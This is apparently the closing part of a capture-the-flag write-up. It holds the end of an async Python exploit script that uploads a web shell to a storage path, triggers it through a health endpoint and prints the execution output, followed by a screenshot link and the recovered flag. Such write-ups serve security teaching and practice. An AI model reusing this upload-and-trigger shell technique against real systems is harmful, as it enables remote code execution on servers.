 ```
        body = upload_resp.text or ""
        print("[+] Upload status:", upload_resp.status_code)
        print("[i] Upload body (excerpt):", (body[:300] + ("..." if len(body) > 300 else "")))

        print(f"[i] Triggering shell via module=/storage/{user_uuid}/{SHELL_NAME}")
        exec_resp = await trigger_via_health(client, user_uuid, SHELL_NAME)
        preview = (exec_resp.text or "")[:200].replace("\n", "\\n")
        print(f"[✓] Executed. HTTP {exec_resp.status_code}. Body: {preview}{'...' if len(exec_resp.text) > 200 else ''}")

        health = await health_check(client)
        if health is not None:
            print("[i] Health:", health)


if __name__ == "__main__":
    asyncio.run(main())

```

<img width="1068" height="573" alt="image" src="https://github.com/user-attachments/assets/a4a7e79f-b7ea-4e8e-9ad4-ffc9ca0ef4b1" />

```
CSCV2025{Z1p_z1P_21p_Ca7_c47_c@t__}
```
